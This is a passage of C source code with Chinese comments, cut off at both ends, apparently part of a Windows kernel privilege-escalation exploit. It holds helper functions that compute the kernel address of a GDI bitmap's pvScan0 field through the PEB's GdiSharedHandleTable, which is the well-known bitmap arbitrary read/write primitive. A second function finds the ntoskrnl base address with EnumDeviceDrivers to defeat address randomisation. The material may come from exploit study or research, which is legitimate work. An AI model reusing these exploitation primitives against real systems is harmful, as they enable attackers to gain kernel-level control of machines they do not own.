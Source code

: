 ```c

	DWORD32 pebAddr = *(PDWORD32)((PUCHAR)tebAddr + 0x30);
	printf("	pebAddr: 0x%p\n", pebAddr);

	DWORD32 GdiSharedHandleTableAddr = *(PDWORD32)((PUCHAR)pebAddr + 0x94);
	printf("	GdiSharedHandleTableAddr: 0x%p\n", GdiSharedHandleTableAddr);

	// GdiSharedHandleTableAddr 是一个指向GDICELL结构体数组的指针
	// GDICELL 结构体 x86 0x10,x64 0x18
	DWORD32 pKernelAddress = GdiSharedHandleTableAddr + ((DWORD32) handle & 0xffff) * 0x10;
	printf("	pKernelAddress: 0x%p\n", pKernelAddress);

	DWORD32 surfaceObject = *(PDWORD32)pKernelAddress;
	printf("	surfaceObject address: 0x%p\n", surfaceObject);
	// BASEOBJECT 结构体 x86 0x10,x64 0x18
	// pvScan0 在 SURFOBJ 结构体中的偏移 x86 0x20,x64 0x38
	DWORD32 pvScan0Address = surfaceObject + 0x10 + 0x20;
	printf("	pvScan0 address: 0x%p\n", pvScan0Address);

	return pvScan0Address;
}

DWORD32 getKernelBase() {
	PVOID driversAddress[1024];
	DWORD cbNeeded;
	int cDrivers, i;
	int ntoskrnlKernelBase;

	// find ntoskrnl.exe kernel base
	if (EnumDeviceDrivers(driversAddress, sizeof(driversAddress), &cbNeeded) && cbNeeded < sizeof(driversAddress))
	{

		cDrivers = cbNeeded / sizeof(driversAddress[0]);

		for (i = 0; i < cDrivers; i++)
		{
			if (GetDeviceDriverBaseName(driversAddress[i], driverName, 1024))
			{
				char *lowerName = _strlwr(driverName);

				if (!strncmp(driverName, "nt", 2)) {

					ntoskrnlKernelBase = i;
					break;
				}
				else {
					if (i == (cDrivers - 1)) {
						printf("can't find driver name\n");
						exit(0);
					}
					continue;
				}
			}
			else {
				printf("get device driver name failed\n");
			}
		}
	}
	else
	{
		printf("Enumerate Device Drivers failed\n");
		return 0;
```